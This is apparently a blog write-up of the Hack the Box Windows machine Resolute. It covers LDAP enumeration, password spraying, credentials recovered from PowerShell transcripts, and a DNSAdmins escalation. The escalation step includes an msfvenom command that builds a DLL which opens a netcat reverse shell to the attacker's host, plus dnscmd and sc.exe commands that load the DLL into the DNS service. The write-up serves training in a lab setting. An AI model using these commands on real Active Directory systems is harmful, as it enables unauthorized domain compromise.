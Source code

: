 +++
author = "Nick"
categories = ["hack the box", "windows", "WinRM", "dll injection", "dns admin", "hydra", "evil-winrm", "smb"]
date = 2020-05-30T14:56:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/resolute.png"
slug = "hack-the-box-resolute"
tags = ["hack the box", "windows", "WinRM", "dll injection", "dns admin", "hydra", "evil-winrm", "smb"]
title = "Hack the Box - Resolute"

+++


Welcome back everyone! Today we are going to be doing the machine Resolute on Hack the Box. This is a Windows machine with a medium difficulty. Let's jump in!

As usual, start with the standard `nmap`: 
```bash 
nmap -sC -sV -T4 -p- -oA resolute 10.10.10.169`
``` 
Here are our results:
```
Host is up (0.24s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE      VERSION
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-09 19:23:46Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m00s, deviation: 4h37m08s, median: 7m00s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2019-12-09T11:24:29-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-09T19:24:35
|_  start_date: 2019-12-09T18:37:33

```

We can start by checking to see if we can enumerate `LDAP` anonymously. To do that we issue: `ldapsearch -x -h megabank.local`

![](/images/2019/12/image-44.png)

We get a response back. So we now know that if we combine our leaked FQDN with our search string, we can start searching the structure.

Command:
```ldapsearch -x -h megabank.local -b 'dc=megabank,dc=local'```

This gives us 270 entries, so we save that output. We can further define our search with `LDAP` queries attached to `ldapsearch`. We want to get just users right now.

Command:
`ldapsearch -x -h megabank.local -p 3268 -b 'dc=megabank,dc=local' "(&(objectClass=user))"`

We can save that output and start parsing through it. We have an interesting note on one of the accounts.

![](/images/2019/12/image-45.png)

I wonder if this password is still valid. It's not, however, a common tactic is to reuse a password for a group of new users. So in this case we try to use the same password for all of the accounts that we found. We get one, ```Melanie```. You can also send a currated listed through `Hydra` to spray all the accounts.

![](/images/2019/12/resolute_spray.gif)

We login as Melanie and get our user flag from her Desktop. We start to look around the box and see a PSTranscripts folder. Inside this is another folder that has the logging output of a script that has been run. Inside the script, we have credentials for ```Ryan```.

![](/images/2019/12/image-46.png)

We can now login as Ryan. We do some more enumeration and see that Ryan is part of the DNSAdmins group.

![](/images/2019/12/image-47.png)

If you've been a System Administrator or on a Red Team you know this is a valid path to escalation. [Here](https://adsecurity.org/?p=4064) and [here](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) are two quick articles on the topic. So our goal here is to create a malicious dll file with `msfpc` or `msfvenom`. Host it on an `smb share`. Then tell our DNS system to load the dll. This should then execute our payload and connect back to us.

This payload is slightly different than the normal ones we use. This time we are also embedding our command to call.

Command:
`msfvenom -p windows/x64/exec cmd='\\10.10.15.129\share\nc.exe 10.10.15.129 80 -e cmd.exe' -f dll > rootme.dll`

Now we need to move it to where we will host our SMB share. For me thats the Tools directory. We also want to make sure we have a copy of `netcat` for Windows on our share as well. Since our payload calls back to our share to use it.

Command:
`impacket-smbserver -smb2support share .`

This spins up our SMB share called 'share'. Now we just need to get our payload loaded. Within Windows we can use the `dnscmd.exe` tool from the CLI. We tell it to load the payload.

Command:
`dnscmd resolute /config /serverlevelplugindll \\10.10.15.129\share\rootme.dll`

A quick breakdown of this command:
`dnscmd` is the tool we are calling.
`resolute` is the server hostname.
`/config` issues a config wipe for the zone.
`/serverlevelplugindll` tells the system to load a specific plugin.

Once we've loaded our malicious dll, we need to restart the DNS services.

Command:
`sc.exe \\Resolute stop dns`
then
`sc.exe \\Resolute start dns`

We should then see our SMB Share light up, followed by our Netcat session.

![](/images/2019/12/resolute_root.gif)

We are in as root! Off to the root flag! Box complete.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

